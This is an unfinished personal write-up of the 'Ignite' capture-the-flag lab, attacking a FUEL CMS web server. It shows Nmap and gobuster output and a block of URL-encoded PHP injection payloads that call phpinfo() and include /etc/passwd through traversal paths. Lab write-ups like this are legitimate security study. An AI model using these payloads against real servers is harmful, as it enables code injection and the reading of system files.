 # Ignite -> A new start-up has a few issues with their web server.

```
export IP=10.10.192.215
```

- Took my first look at the `robots.txt` file and got some clues already. :)
- Nmap scan came back and doesnt look encouraging at all.
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-20 16:13 GMT
Nmap scan report for 10.10.192.215
Host is up (0.54s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

```

- Results from gobuster scan.
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 200)
/assets (Status: 301)
/home (Status: 200)
/index.php (Status: 200)
/index (Status: 200)
/offline (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)

```

- Something tells me that `/fuel` path that has a disallowed access is fishy.

- got some payload of the internet 
```
http://10.10.192.215/fuel/pages/select/?nocache=1507880376191&input=&target=&title=&class=&pdfs=&filter=%3C%3F%20phpinfo%28%29%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/../../../../../etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include%20%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F+include+%27%2Fetc%2Fpasswd%27%3B++%3F%3E

%27%2b phpinfo() %2b%27
```

- It works now i just have to build my payload and use it to read some daunting files from the system.
- Ive tried things, nothing works on the website and it gives no info. Went to read some walkthroughs and stuff like that. Even went to look for vulnerabilities associated with the version of fuel cms used but it still gave me headache. I have not given up.. i am just going to learn new ways LOL.

- 
